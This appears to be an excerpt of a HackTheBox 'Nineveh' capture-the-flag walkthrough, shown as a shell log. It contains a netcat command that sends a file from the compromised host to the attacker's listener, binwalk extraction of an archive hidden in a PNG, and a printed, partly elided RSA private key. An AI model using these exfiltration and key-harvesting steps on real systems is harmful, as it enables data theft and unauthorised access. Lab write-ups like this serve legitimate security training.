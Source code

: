 ```bash
www-data@nineveh:/var/www/ssl/secure_notes$ nc 10.10.14.29 9999 < nineveh.png
nc 10.10.14.29 9999 < nineveh.png

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 9999 > nineveh.png
listening on [any] 9999 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 50188

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# binwalk -e nineveh.png --run-as=root

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)

                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# ls
nineveh.png  _nineveh.png.extracted
                                   
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cd _nineveh.png.extracted 
                                   
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh/_nineveh.png.extracted]
└─# ls
2BF8D0.tar  54  54.zlib  secret
                               
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh/_nineveh.png.extracted]
└─# cd secret                
                              
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# ls
nineveh.priv  nineveh.pub

┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# cat nineveh.priv
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
...
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----                                                                                                             
┌──(root㉿shiro)-[/home/…/HackTheBox/Nineveh/_nineveh.png.extracted/secret]
└─# cat nineveh.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```
